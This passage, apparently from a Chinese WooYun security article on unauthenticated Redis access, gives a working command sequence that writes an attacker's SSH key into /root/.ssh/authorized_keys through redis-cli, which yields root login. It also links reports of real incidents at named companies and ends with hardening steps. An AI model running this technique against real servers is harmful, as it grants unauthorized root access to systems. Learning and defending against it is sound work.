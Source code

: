 具体方法：[Redis-getshell](http://zone.wooyun.org/content/19358)

***3.3 通过redis获取服务器用户***

假设redis用户运行在root用户，root用户对自己的authorized_keys可以控制，可以直接通过备份来写入ssh key。

先在attack server生成一个公钥

	ssh-keygen -t rsa -C "redis"
	(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > redis.txt
然后执行

	redis-cli -h 192.168.192.133 flushall

	cat redis.txt | redis-cli -h 192.168.192.133 -x set pwn
	登录redis redis-cli -h 192.168.192.133

	CONFIG set dir /root/.ssh/
	config set dbfilename "authorized_keys"
	save
	exit
然后就可以使用ssh的私钥登录了
	
	ssh -i redis root@192.168.192.133
From:[redis-sshkey](http://zone.wooyun.org/content/23842)

**4、实际案例**

---
未授权访问案例：

[新浪redis数据库未授权访问（影响企业内部敏感信息）](http://www.wooyun.org/bugs/wooyun-2010-085110)

[聚美优品Redis未授权访问导致敏感信息泄露+跨境贸易报文交易系统弱口令](http://www.wooyun.org/bugs/wooyun-2010-083978)

[uc某redis配置不当导致uc共享wifi密钥泄露](http://www.wooyun.org/bugs/wooyun-2010-089090)

[熊猫翻滚redis服务可无密码远程访问导致敏感数据泄漏](http://www.wooyun.org/bugs/wooyun-2014-054740)

利用redis getshell案例：

[电信某服务器getshell可渗透内网（利用redis getshell案例）](http://www.wooyun.org/bugs/wooyun-2015-0101465)

利用redis写ssh key案例：

[中国铁建内网漫游沦陷多个重要部门泄漏大量信息(redis+ssh-keygen免认证登录案例)](http://www.wooyun.org/bugs/wooyun-2015-0152710)

**5、修复方案**

---
不要以root用户运行redis

修改运行redis的端口,编辑配置文件

	port 4321
如果只需要本地访问，编辑配置文件

	bind 127.0.0.1
设定密码,编辑配置文件

	requirepass 　wooyun.org
在启动的时候需要指定配置文件的路径，这些设置才会生效
